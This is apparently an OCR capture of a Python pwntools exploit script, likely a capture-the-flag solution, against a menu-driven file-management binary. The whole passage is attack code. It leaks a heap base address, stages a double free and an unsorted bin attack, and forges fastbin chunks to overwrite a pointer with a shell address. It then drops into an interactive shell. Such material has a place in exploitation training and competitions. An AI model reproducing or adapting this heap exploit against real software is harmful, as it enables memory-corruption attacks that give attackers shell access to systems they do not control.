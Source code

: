 ```py
    DeleteFile('1','h')
    RecoverFile('1','g')
    ShowFile('1','g')


    #leak heap
    p.recvuntil('file content: ')
    heap_base = u64(p.recvline().strip('\n').ljust(8,'\x00')) - 0x2d0
    log.success("heap base => " + hex(heap_base))



    #malloc preapare

    #double free
    DeleteFile('1','i')
    DeleteFile('1','j')
    #RecoverFile('1','i')
    #DeleteFile('1','i')
    #set fast bins to malloc
    DeleteFile('1','e')
    DeleteFile('1','f')


    DeleteFile('1','c')


    #unsorted bin attack
    #payload = p64(0)+p64(main_arena)+'a'*0x28+p64(0x51)+p64(0x63)+'\x00'*0x28+p64(0x88)+p64(heap_base+0x1f0)
    #payload += p64(heap_base+0x160)+p64(0x91)+p64(0xdeadbeef)+p64(0x603058)
    CreateFileY('1','a'*0x1f,0x38,'a'*0x30+'\xf0','a'*0x80+p64(0)+p64(0x91)+p64(0)+p64(0x603058))


    CreateFileN('1','j',0x80,'a')#10

    for i in range(4):
        DeleteFile('1',str(i+5))

    DeleteFile('1','g')

    CreateFileN('1','wz',0x68,p64(fake_chunk))


    CreateFileN('1','wz1',0x68,'xmzyshypnc')


    CreateFileN('1','wz2',0x68,'xmzyshypnc')
    CreateFileN('1','ama2in9',0x68,'a'*0x13+p64(shell_addr))
    gdb.attach(p)


    #get shell

    p.recvuntil('Your choice: \n')
    p.sendline('2')
    p.recvuntil('which directory do you want to put this file in: \n')
    p.sendline('1')

    p.interactive()
exp()

```